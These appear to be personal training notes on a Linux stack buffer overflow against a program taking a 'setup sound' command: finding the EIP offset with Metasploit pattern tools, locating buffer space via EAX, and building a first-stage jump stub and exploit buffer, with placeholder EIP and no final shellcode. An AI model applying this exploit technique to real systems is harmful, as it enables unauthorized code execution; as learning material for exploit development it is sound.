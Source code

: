 # Linux Buffer Overflow
## DEP (data execution prevention), ASLR, Canaries


# replicating the crash  
# controlling EIP
## find the eip location, use msf-pattern_create
`msf-pattern_create -l 4379`  
eip = 0x46367046  
`msf-pattern_offset -q 46367046`  
-q, --query Aa0A                 Query to Locate  

offset = 4368

crash = "\x41" * 4368 + "B" * 4 + "C" * 7  

## locating space for shell code  
find a register that point to our buffer:  
esp point to the end of our buffer, only have 7 bytes remaining in the buffer, increase buffer size not work, lead to another crash  
eax point to the start of the buffer, including the "setup sound" string 

right click -> go to expression (setup sound)   
"se" ->  translate to `jae` jump short if above or equal  
"tu" ->  `je` jump if equal  
not good  

insert first stage shell code at the 7 bytes space  
use to allain eax to point to string after setup sound, then jump to there 

increase eax+12 as there are 12 chars in "setup sound"

```
kali@kali:~$ msf-nasm_shell
nasm > add eax,12
00000000 83C00C add eax,byte +0xc
nasm > jmp eax
00000000 FFE0 jmp eax
```

5 bytes instructions 83C00C FFE0
 
 ```
padding = "\x41" * 4368
eip = "\x42\x42\x42\x42"
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"  # padding with nops

buffer = "\x11(setup sound " + padding + eip + first_stage + "\x90\x00#"
 ```
